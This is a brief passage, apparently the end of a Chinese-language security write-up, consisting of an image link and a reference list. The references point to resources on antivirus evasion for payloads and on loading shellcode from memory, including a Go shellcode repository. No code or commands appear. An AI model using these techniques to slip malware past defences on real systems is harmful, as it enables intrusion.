


# 3 参考资料

payload免杀：`https://www.cnblogs.com/LyShark/p/11331476.html`

基于Ruby内存加载shellcode：`https://micro8.gitbook.io/micro8/contents-1/61-70/68-ji-yu-ruby-nei-cun-jia-zai-shellcode-di-yi-ji`

go-shellcode:`https://github.com/brimstone/go-shellcode`

从内存加载 SHELLCODE 绕过AV查杀:`https://jayl1n.github.io/2019/01/08/tools-load-shellcode/` 